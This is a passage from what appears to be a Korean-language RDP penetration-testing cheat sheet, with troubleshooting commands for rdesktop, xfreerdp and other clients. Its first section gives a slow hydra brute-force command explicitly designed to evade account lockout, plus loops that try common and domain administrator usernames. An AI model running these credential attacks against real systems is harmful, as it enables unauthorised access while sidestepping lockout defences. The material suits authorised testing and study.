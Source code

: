 ### 🚫 인증 계속 실패시

```bash
# 계정 잠금 정책 확인 및 회피
# 느린 브루트포스 (계정 잠금 방지)
hydra -l administrator -P passwords.txt rdp://{IP} -t 1 -W 30

# 다른 사용자 계정들 시도
users=("administrator" "admin" "guest" "user" "test" "rdp")
for user in "${users[@]}"; do
    echo "Trying user: $user"
    timeout 10 xfreerdp /u:$user /p:password /v:{IP} +auth-only 2>/dev/null
done

# 도메인 사용자 시도 (로컬 계정 잠금과 별개)
xfreerdp /u:{DOMAIN}\\administrator /p:password /v:{IP}
```

### 🖥️ 세션 연결 문제

```bash
# 해상도 조정
rdesktop {IP} -u administrator -p password -g 800x600
xfreerdp /u:administrator /p:password /v:{IP} /size:800x600

# 색상 깊이 조정
rdesktop {IP} -u administrator -p password -a 16
xfreerdp /u:administrator /p:password /v:{IP} /bpp:16

# 압축 활성화 (느린 연결)
rdesktop {IP} -u administrator -p password -z
xfreerdp /u:administrator /p:password /v:{IP} +compression

# 비트맵 캐싱
rdesktop {IP} -u administrator -p password -P
xfreerdp /u:administrator /p:password /v:{IP} +bitmap-cache
```

### 🔧 RDP 클라이언트 문제

```bash
# 다른 RDP 클라이언트 시도
# rdesktop
rdesktop {IP} -u administrator -p password

# xfreerdp (더 현대적)
xfreerdp /u:administrator /p:password /v:{IP}

# remmina (GUI)
remmina

# Windows 환경에서
mstsc /v:{IP}

# 연결 매개변수 조정
xfreerdp /u:administrator /p:password /v:{IP} /cert-ignore /sec:rdp
```

---